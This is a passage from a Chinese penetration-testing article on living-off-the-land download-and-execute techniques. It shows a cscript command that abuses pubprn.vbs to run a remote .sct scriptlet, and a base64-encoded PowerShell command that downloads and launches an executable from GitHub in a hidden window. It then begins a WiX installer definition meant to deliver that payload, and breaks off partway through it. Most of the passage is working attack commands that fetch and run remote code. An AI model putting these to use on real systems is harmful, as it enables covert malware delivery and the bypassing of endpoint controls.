 利用pubprn.vbs能够执行远程服务器上的sct文件(sct文件格式有区别)

**思路：**

regsve32->VBScript->download&exec

代码已上传，地址为https://raw.githubusercontent.com/3gstudent/test/master/downloadexec3.sct

**实现功能：**

```
cscript /b C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs 127.0.0.1 script:https://raw.githubusercontent.com/3gstudent/test/master/downloadexec3.sct
```

当然，也可使用如下思路实现(代码略)：

regsve32->JScript->powershell->download&exec

### 6、msiexec

该方法我之前的两篇文章《渗透测试中的msiexec》《渗透技巧——从Admin权限切换到System权限》有过介绍，细节不再赘述

首先将powershell实现下载执行的代码作base64编码：

```
$fileContent = "(new-object System.Net.WebClient).DownloadFile('https://github.com/3gstudent/test/raw/master/putty.exe','c:\download\a.exe');start-process 'c:\download\a.exe'"
$bytes  = [System.Text.Encoding]::Unicode.GetBytes($fileContent);
$encoded = [System.Convert]::ToBase64String($bytes); 
$encoded
```

得到：

```
KABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACcAaAB0AHQAcABzADoALwAvAGcAaQB0AGgAdQBiAC4AYwBvAG0ALwAzAGcAcwB0AHUAZABlAG4AdAAvAHQAZQBzAHQALwByAGEAdwAvAG0AYQBzAHQAZQByAC8AcAB1AHQAdAB5AC4AZQB4AGUAJwAsACcAYwA6AFwAZABvAHcAbgBsAG8AYQBkAFwAYQAuAGUAeABlACcAKQA7AHMAdABhAHIAdAAtAHAAcgBvAGMAZQBzAHMAIAAnAGMAOgBcAGQAbwB3AG4AbABvAGEAZABcAGEALgBlAHgAZQAnAA==
```

完整powershell命令为：

```
powershell -WindowStyle Hidden -enc KABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACcAaAB0AHQAcABzADoALwAvAGcAaQB0AGgAdQBiAC4AYwBvAG0ALwAzAGcAcwB0AHUAZABlAG4AdAAvAHQAZQBzAHQALwByAGEAdwAvAG0AYQBzAHQAZQByAC8AcAB1AHQAdAB5AC4AZQB4AGUAJwAsACcAYwA6AFwAZABvAHcAbgBsAG8AYQBkAFwAYQAuAGUAeABlACcAKQA7AHMAdABhAHIAdAAtAHAAcgBvAGMAZQBzAHMAIAAnAGMAOgBcAGQAbwB3AG4AbABvAGEAZABcAGEALgBlAHgAZQAnAA==
```

完整wix文件为：

```
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
  <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product 
Name" Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
    <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
    <Media Id="1" />

    <Directory Id="TARGETDIR" Name="SourceDir">
      <Directory Id="ProgramFilesFolder">
        <Directory Id="INSTALLLOCATION" Name="Example">
          <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">     
          </Component>
        </Directory>
      </Directory>
    </Directory>

```